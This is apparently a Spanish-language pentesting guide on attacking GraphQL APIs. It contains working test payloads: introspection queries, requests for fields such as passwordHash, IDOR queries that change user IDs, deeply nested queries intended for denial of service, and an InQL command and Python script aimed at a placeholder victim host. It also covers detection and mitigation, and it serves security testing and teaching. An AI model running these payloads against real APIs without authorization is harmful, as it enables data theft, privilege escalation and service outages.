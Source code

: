 # GraphQL: Introspección y Abusos

## Resumen

**Qué es:** GraphQL es un lenguaje de consulta para APIs que permite a los clientes solicitar exactamente los datos que necesitan.
**Por qué importa:** La introspección y flexibilidad de GraphQL facilitan la enumeración profunda, acceso a datos sensibles y explotación de lógica interna.
**Cuándo aplicarlo:** Crucial donde apps exponen `/graphql` y ofrecen introspección o carecen de controles finos.

---

## Contexto

**Supuestos:**

- El endpoint `/graphql` es público o accesible, aceptando queries POST (y a veces GET).
- Herramientas como Burp Suite, Postman, GraphQL Voyager, Altair, Insomnia, InQL.
- Usuarios de distinto rol para contraste entre respuestas y validación de autorizaciones.
- API implementada en stacks populares (Apollo, Graphene, express-graphql, graphql-java, Hasura).

**Límites:**

- Foco en APIs RESTful extendidas con GraphQL.
- No cubre protecciones de WAF que inspeccionan payloads GraphQL.

---

## Metodología

1. **Reconocimiento del endpoint:**
   - Localizar `/graphql`, `/graphiql`, `/playground`.
   - Inspeccionar si hay consola interactiva expuesta.
2. **Enumeración por introspección:**
   - Lanzar queries introspectivas (`__schema`, `__type`).
   - Obtener tipos, queries, mutations y sus argumentos.
   - Usar herramientas: InQL, GraphQL Voyager.
3. **Mapeo de operaciones y tipos:**
   - Identificar queries, mutations, subscriptions.
   - Enumerar campos ocultos, tipos no documentados, argumentos sensibles.
4. **Pruebas de parámetros y abuso de lógica:**
   - Pruebas de privilegios cruzados (consultar/alterar datos ajenos).
   - Fuzzing de argumentos, envío de tipos inadecuados.
   - Intentos de acceso a campos internos (`isAdmin`, `passwordHash`, etc).
5. **Exploración de errores y respuestas:**
   - Explotar mensajes de error detallados.
   - Forzar fragmentos no válidos, queries excesivas o recursivas.
6. **Análisis de profundidad/recursividad:**
   - Usar queries anidadas para obtener grandes volúmenes de información.
   - Intentar DoS por queries recursivas o deep nesting.

**Checklist de verificación:**

- Introspección habilitada (¿se puede obtener el esquema?).
- Autorizaciones a nivel de campo y tipo.
- Protección frente a queries recursivas/deeply nested.
- Limitación en el tamaño y complejidad de las queries.
- Control de errores (sin filtración de stacktraces o detalles internos).

---

## Pruebas Manuales

### 1. Introspección básica

```json
{
  "query": "{ __schema { types { name fields { name type { name } } } } }"
}
```

Respuesta: El esquema completo, incluyendo tipos ocultos y endpoints no documentados.

### 2. Enumeración de Mutations y Queries

```json
{
  "query": "{ __type(name: \"Mutation\") { fields { name args { name type { name } } } } }"
}
```

### 3. Prueba de acceso a datos sensibles

```json
{
  "query": "{ users { id email isAdmin passwordHash } }"
}
```

Evaluar si campos internos están expuestos.

### 4. Bypass de autenticación/autorización

- Repetir queries como user regular y admin.
- Modificar IDs sin autorización.

```json
{
  "query": "{ user(id: \"2\") { email role } }"
}
```

### 5. Query para DoS/Exfiltración masiva

```json
{
  "query": "query { users { posts { comments { author { email } } } } }"
}
```

Consultar objetos recursivos aumenta la carga del backend y posibilita extracción masiva.

---

## PoC Automatizada

**Enumeración general (usando InQL):**

```bash
inql -t https://victima.com/graphql
```

**Fuzzing de campos y argumentos (Python):**

```python
import requests

endpoint = 'https://victima.com/graphql'
payload = { "query": "{ __schema { types { name fields { name } } } }" }

r = requests.post(endpoint, json=payload)
print(r.json())
```

**DoS recursivo:**

```json
{
  "query": "{ a { b { c { d { e { f { g } } } } } } }"
}
```

---

## Explotación y Automatización

- **Introspección total:** Descubrir todos los tipos, queries y mutations posibles.
- **Abuso de queries recursivas/anidadas:** Extraer grandes volúmenes o saturar el backend.
- **IDOR y escalada de privilegios:** Acceso a recursos de otros usuarios usando argumentos manipulados.
- **Filtrado de lógica y configuración interna:** Stacktraces, rutas internas, credenciales por errores.

---

## Impacto

- **Data breach multiperfil:** Acceso a toda la información no segregada por role.
- **Bypass de controles:** Ataques IDOR y privilege escalation si no hay validación granular.
- **Denegación de servicio:** Queries anidadas sobrecargan el servidor.
- **Exposición de lógica interna:** Esquema revela flujos y modelos de negocio ocultos.

**Mapeo:**

- OWASP API Security Top 10 (API1, API3, API5)
- CWE-639, CWE-522, CWE-200

---

## Detección

- Revisar logs de:
  - Queries `__schema`, `__type` por usuarios no admin.
  - Excesivo anidamiento o recursividad en queries.
  - Accesos a campos sensibles por usuarios no autorizados.
  - Errores 500 con stacktraces o detalles técnicos.
- Audit trail de operaciones sensibles vía GraphQL.

---

## Mitigación

- Deshabilitar introspección en producción o filtrar por roles.
- Validar autorización a nivel de campo/mutation.
- Limitar profundidad y tamaño de queries (depth limit, complexity limit).
- Sanear mensajes de error y filtrar información sensible en respuestas.
- Endpoint GraphQL tras autenticación (no público).

---

## Errores Comunes

- Dejar introspección activa sin control.
- Falta de validación de autorización en cada campo/operación.
- No aplicar limits de complejidad o tamaño de queries.
- Explicar lógica del modelo/negocio en mensajes de error.

---

## Reporte

**Título:** Introspección y abuso de GraphQL permiten exfiltración y escalada en la API
**Impacto:** Acceso y extracción masiva de datos, bypass de controles y denegación de servicio.
**Pasos:**

1. Enumerar esquema y tipos vía introspección.
2. Acceso a campos/queries/mutations críticos.
3. Explotar queries recursivas o profundas hasta saturar el backend.

**Evidencias:**

- Resultados de queries con datos internos.
- Log de errores detallados tras manipulación de payloads.
- PoC de queries no documentadas/privadas ejecutadas desde usuario básico.

**Mitigación:**
Limitar introspección, autorización granular, depth/complejidad y sanear errores.

---
